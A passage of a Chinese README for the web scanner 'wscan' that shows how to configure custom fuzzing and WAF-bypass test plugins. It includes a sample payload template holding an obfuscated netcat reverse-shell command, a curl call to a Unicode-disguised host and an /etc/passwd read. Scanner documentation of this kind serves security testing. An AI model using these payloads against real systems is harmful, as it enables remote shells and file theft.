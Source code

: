 ## Step2 修改配置文件
您需要修改config.yaml文件中的以下内容，以指定custom的路径。
```
custom:
    enabled: true
    depth: 0
    auto_load_tmpl: false
    include_tmpl:
        - /wscan/core/plugins/custom/tmpl/*.yml
    exclude_tmpl: []
```
## Step3 执行自定义FUZZ插件
通过命令行启用--plug=waftest，即可对目标网站进行自定义Payload测试。
```
./wscan --log-level=debug ws --plug=custom --url http://testphp.vulnweb.com/listproducts.php?artist=1  --html-output=wscan_scan_result.html
```

#  Waf绕过/Waf测试
 不同于POC测试，自定义WEB通用漏洞扫描插件，会对指定位置的参数进行FUZZ,

## Step1 插件样例
样例参考 https://github.com/chushuai/wscan/tree/main/core/plugins/waftest/tmpl/owasp
```
payload:
- $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
- /etc/passwd
- "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
encoder:
- URL
placeholder:
- URLParam
- HTMLForm
- HTMLMultipartForm
- JSONRequest
type: "RCE"
```
## Step2
   您需要修改config.yaml文件中的以下内容，以指定include_tmpl的路径。
```
waftest:
    enabled: true
    depth: 0
    auto_load_tmpl: false 
    include_tmpl:
      - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
    exclude_tmpl: [ ]
    block_status_codes: # 被WAF阻止时HTTP状态码列表,默认值为403
      - 403
    pass_status_codes: # 未被WAF阻止时HTTP状态码列表, 默认值为200或404
      - 200
      - 404
    block_regex: "" # 被WAF阻止网页的正则表达式
    pass_regex: "" # 未被WAF阻止网页的正则表达式
    non_blocked_as_passed: false
```
## Step3 执行自定义waftest插件
